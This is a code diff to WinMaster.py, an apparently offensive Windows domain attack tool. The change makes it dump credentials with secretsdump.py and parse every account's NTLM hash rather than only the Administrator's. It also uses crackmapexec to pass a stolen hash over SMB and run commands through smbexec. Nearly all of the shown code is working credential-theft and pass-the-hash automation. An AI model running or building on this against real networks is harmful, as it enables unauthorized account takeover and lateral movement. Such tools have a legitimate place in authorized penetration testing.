

Updates

Changed region(s): [[0.7423, 0.2468, 0.9897, 0.5552], [0.4948, 0.0, 0.5567, 0.0308], [0.1237, 0.5244, 0.1546, 0.5552]]

diff --git a/WinMaster.py b/WinMaster.py
@@ -1290,21 +1290,22 @@ while True:
       os.remove("SECRETS.tmp")
       os.system(PRO + "secretsdump.py " + HST.rstrip(" ") + '/' + USR.rstrip(" ") + ":" + PAS.rstrip(" ") + "@" + TIP.rstrip(" ") + " >> SECRETS.tmp")
       command("cat SECRETS.tmp")
-      os.system("sed -i -n '/Administrator/p' SECRETS.tmp")	# SELECT ONLY ADMINISTRATOR
-      HASH = linecache.getline('SECRETS.tmp', 1)
-      HASH = HASH.replace (":"," ")
-      HASH = HASH.rstrip(" ")
-      os.system("echo '" + HASH.rstrip(" ") + "' >> SECRETS2.tmp")
-      os.system("awk 'NF>1{print $NF}' < SECRETS2.tmp > HASH.tmp")
+      os.system("sed -i '/:::/!d' SECRETS.tmp >> SECRETS2.tmp")
       os.remove("SECRETS2.tmp")
-      HASH = linecache.getline('HASH.tmp', 1)
-      os.system("mv HASH.tmp SECRETS.tmp")
-      HASH = HASH.rstrip("\n")
-      HASH = padding(HASH, COL4)
+      os.system("cat SECRETS.tmp | wc -l > count.txt")
+      count = linecache.getline("count.txt", 1)
+      count2 = int(count)
+      os.remove("count.txt")
 
-      for x in range (0,MAX):
-         if US[x].rstrip(" ") == "Administrator":
-            PA[x] = HASH
+      for x in range(0,count2):
+         test = linecache.getline("SECRETS.tmp",x+1)
+         test = test.replace(":::","")
+         test = test.replace(HST.rstrip(" ")+"\\","")
+         get1,get2,get3,get3 = test.split(":")
+         get3 = padding(get3,COL4) 
+         for x in range (0,MAX):
+            if US[x].rstrip(" ") == get1:
+               PA[x] = get3
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1318,12 +1319,12 @@ while True:
       command("crackmapexec -u users.txt -p " + PAS.rstrip(" ") + " --shares " + TIP.rstrip(" "))
       HASHED = "................................"
       for x in range (0,MAX):
-         if US[x].rstrip(" ") == POR.rstrip(" "):
+         if US[x].rstrip(" ") == POR.rstrip(" "):    # IMPERSONATE VALUE
             HASHED = PA[x].rstrip(" ")
       if HASHED != "................................":
          command("crackmapexec smb " + TIP.rstrip(" ") + " -u " + POR.rstrip(" ") + " -H " + HASHED + " -x 'net user Administrator /domain' --exec-method smbexec")
       else:
-         command("echo 'No hash value enumerated for " + POR.rstrip(" ") + "...'")
+         command("echo 'No hash value found for " + POR.rstrip(" ") + "...'")
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
